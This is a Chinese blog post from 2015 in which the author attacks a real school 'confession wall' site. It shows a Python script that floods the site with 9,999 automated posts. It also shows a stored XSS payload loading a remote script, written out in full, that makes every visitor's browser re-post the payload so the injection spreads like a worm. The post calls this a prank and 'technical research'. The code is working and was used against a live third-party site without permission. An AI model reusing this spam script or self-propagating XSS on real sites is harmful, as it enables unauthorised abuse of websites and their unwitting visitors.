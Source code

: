 ```yaml
---
layout: post
title: "XSS让每个人都帮我表白"
subtitle: "单生狗的碎碎念（无对象技术测试）"
date: 2015-02-06 09:22
comments: true
author: MewX
published: true
categories: [life, python]
---
```


　　最近觉得学校的表白墙很好玩，而且人气也挺不错。有表白排行之类的有趣功能，经常能看到人刷屏、刷排行之类的。  

　　14号不就是情人节了嘛，最近肯定是表白人气最旺的时段了，妥妥地来凑个热闹。  

　　但是光是自己表白没啥意思啊，比如说我看到系统挺渣，我就用python写了个脚本一直刷，刷了9999次对吧。（下面这段代码把action地址给隐去了 =。=）  

<?prettify lang=python?>
    def tryPost( receiver, sender, msg):
        postData = 'save=1&book_title='+urllib.quote(receiver)+'&book_name='
                +urllib.quote(sender)+'&book_body='+urllib.quote(msg)
                +'&submit=%E5%8F%91%E5%B8%83';
        #print(postData);
        req = urllib2.Request(BaseURL,postData);
        req.add_header('Referer', BaseURL);
        urllib2.urlopen(req);
        return;

    for i in range(0,9999):
        tryPost('P^2','Anonymous','You know who.');

　　  

　　效果图如下，直接给刷了9999次。  
<center><a href="{{ site.cdn }}imgs/201502/01-9999-loves.jpeg" target="_blank"><img src="{{ site.cdn }}imgs/201502/01-9999-loves.jpeg" style="max-width:100%; height:auto;"/></a></center>  

　　看代码的时候应该可以看到，这表单竟然提交了一个submit元素上去，真是用(sang)心(xin)良(bing)苦(kuang)啊，为后面XSS增加了难度呢！  

　　  

　　下面来XSS。之前说了这个表白留言系统超级渣啊，没有验证码、没有XSS过滤呢。我这边可以插入任意html代码的。  

　　现在我要做到的目标就是让每个访问这个页面的人帮我向target表白！  

　　  

　　**这部分的技术难点：**  

　　1. 嵌入XSS代码；  

　　2. XSS代码长度限制在200以内；（测试发现数据库的varchar长度是200字节，html进行POST的时候会进行转义编码即“汉字”会变成“%XX%XX%XX”）  

　　3. 因为一页可能会有多遍script载入，所以在载入多遍script的时候需要保证效果只有一次，不然就直接刷屏了，太没节操了；  

　　4. POST返回值要无视掉，不然会接收到一段alert代码，影响用户体验；  

　　5. 使用jQuery在网页顶部插入表白图片，这部分用纯JS的话很麻烦，默认只能appendChild添加在末尾；  

　　6. 因为有一个元素叫submit，所以不能使用form.submit()，否则会触发object is not an method错误；

　　  

　　提交的XSS代码：  

<?prettify lang=javascript?>
    <script type="text/javascript" src="http://mewx.org/js/xss.js"></script>

　　上面这部分代码已经压缩到最短了，本来准备在前面添加一段图片的，结果直接就超长了，图片添加挪到xss.js里面了。  

　　P.S. 刚刚push上来发现自己网页被挂上那个脚本了 \_(:3」∠)\_ 好吧。最后检查时少了个问号。。  

　　  

　　XSS.JS：  

<?prettify lang=javascript?>
    // 省略 jQuery 代码

    $(document).ready(function(){

        var obj = document.getElementById("LoveX");
        if(obj) return;

        $("body:first").prepend("<img id=\"LoveX\" src=\"http://www.dwz.cn/XXXXX\" style=\"width:350px;height:350px\"/>");
        //$(".LoveX").insertAfter("header");

        // Ajax
        var params = {save:1,book_title:'此处打码',book_name:'MewX',book_body:'<script type=\"text/javascript\" src=\"http://mewx.org/js/xss.js\"></script>',submit:'发布'};
        url = 'http://xxxxxxxxx.sinaapp.com/add_express.php';
        $.post(url,params,function(data){
            // ignore data
        });
    })

　　  

　　最终效果：如图，每个访问该页面的人都会帮我提交一份表白啦！~~
<center><a href="{{ site.cdn }}imgs/201502/02-XSS-express-love.jpeg" target="_blank"><img src="{{ site.cdn }}imgs/201502/02-XSS-express-love.jpeg" style="max-width:100%; height:auto;"/></a></center>  

　　不知到2月14号会有多少访问量呢？哈哈，刚刚看到有人和我的脚本对刷！！！  

　　  

　　----------  

　　  

　　补：以上纯属闹剧，表白对象与我也毫无干系 \_(:з」∠)\_ 各位借此能了解一下XSS便好。以上恶意举动仅作技术研究。  
